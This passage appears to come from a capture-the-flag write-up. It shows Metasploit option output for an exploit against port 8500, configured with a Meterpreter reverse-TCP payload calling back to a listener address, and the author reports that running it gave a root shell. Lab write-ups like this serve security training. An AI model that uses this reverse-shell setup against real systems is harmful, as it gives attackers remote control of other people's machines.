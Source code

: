 ```
                                                              ing-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on t
                                                              he local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.66      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

```
and typed exploit and got a meterpeter shell so I typed shell and now I have bash shell with the root user